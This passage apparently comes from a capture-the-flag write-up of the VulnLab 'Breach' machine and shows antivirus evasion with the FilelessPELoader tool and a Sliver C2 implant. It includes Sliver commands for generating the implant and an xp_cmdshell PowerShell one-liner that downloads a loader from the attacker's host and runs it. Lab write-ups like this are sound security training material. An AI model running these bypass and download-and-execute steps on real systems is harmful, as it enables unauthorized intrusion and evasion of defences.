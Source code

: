 If you'll notice from the above command output, it seems that AV is enabled on this machine - meaning we can't simply execute malicious files as we normally would.

# Bypassing AV with PE Loaders

Since this is a Windows 2022 Datacenter (which I found later on for Priv Esc), we could simply just upload a Havoc binary since the signatures for [Havoc C2](https://github.com/HavocFramework/Havoc) beacons are not considered malicious in this version of Windows. If you stood up a havoc server, you should be able to upload the demon x64 binary through MSSQL and execute it to get a reverse shell.

I wanted to use a different exploit this time around though that involves using Sliver. There's a really interesting loader that I learned to use recently for AV bypass - one that even works for the most recent version of Windows 11. This specific loader is called [FilelessPELoader](https://github.com/SaadAhla/FilelessPELoader), and it requires a bit of signature detection obfuscation before utilizing it properly. Luckily enough, the author of this loader (seamys, all credit goes to him for the development of this loader) has made a relatively short walkthrough on how to do this that you can find [here](https://youtu.be/NmB2MPAafTo?si=58ITZ4LFxG2DBc2t).

So if you've followed the loader walkthrough video accordingly, you should have the executable compiled from Visual Studio. I'll spin up a quick [Sliver C2](https://github.com/BishopFox/sliver) server and create an implant as well as start an MTLS listener.

```
sliver > mtls
[*] Starting mTLS listener ...
[*] Successfully started job #1
sliver > generate --mtls (YOUR IP) --os windows --format exe --arch amd64 --save (DIRECTORY) --name breach
```

Skipping symbol obfuscation with `--skip-symbols` shouldn't matter here, though if you do run into problems with the loader feel free to set that to a newly generated binary.

Next be sure to load this with the `aes.py` file that is provided in the FilelessPELoader GitHub repo, we can do this easily by running it with `python3 aes.py breach.exe`. This should generated the respective key files needed for the exploit.

Now that all of the legwork is done, you should have four files within your directory - `breach.exe`, `cipher.bin`, `key.bin`, and finally your obfuscated loader that you compiled previously. Make sure to host your directory that contains these four files with a simple Python HTTP server at the port of your choosing. We'll now head back to MSSQL and execute the commands needed to exploit this.

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell powershell "cd C:\; mkdir temp; cd C:\temp; curl http://(YOUR IP):9001/dazzad.exe -O dazzad.exe; .\dazzad.exe (YOUR IP) 9001 cipher.bin key.bin"
```

The above one-liner should create a temp directory in `C:\` and download the loader, before finally executing the key files remotely based on your HTTP server.

![](/images/vulnlab/breach-vl/d.png)

As you can see after a bit of waiting, a session has been created as `svc_mssql`.

# Exploiting SeImpersonatePrivilege Against SYSTEM
